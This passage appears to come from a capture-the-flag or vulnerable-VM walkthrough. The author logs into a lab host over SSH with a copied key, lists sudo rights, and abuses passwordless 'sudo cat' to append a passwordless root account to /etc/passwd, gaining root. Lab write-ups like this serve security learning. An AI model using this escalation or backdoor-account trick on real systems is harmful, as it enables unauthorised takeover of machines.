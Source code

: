 I copied it over and set the right permissions:  

```
root@kali:~/Desktop# chmod 600 key  
root@kali:~/Desktop# ssh -i key hbeale@192.168.2.120  
Linux 2.6.27.27.  
hbeale@slax:~$ whoami  
hbeale  
```

Nice. First thing I always try on a low priv is `sudo -l`.

```console
root@kali:~/Desktop# ssh -i key hbeale@192.168.2.120  
Linux 2.6.27.27.  
hbeale@slax:~$ whoami  
hbeale  
hbeale@slax:~$ sudo -l  
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```

Awesome, we can edit files with cat using the &gt;&gt; operator. Let's add a root user.

```console
hbeale@slax:~$ sudo /usr/bin/cat >> /etc/passwd  
abatchy::0:0::/root:/bin/bash  
^C  
hbeale@slax:~$ su abatchy  
root@slax:/home/hbeale# id


uid=0(root) gid=0(root) groups=0(root) 
```
  
Voila, we got root.  
  
---

## Final notes

 Not sure if the author did it on purpose to just write some input to port 10001 and discover it's written to the php file or not, please leave a comment if you got an answer to that.

\- Abatchy
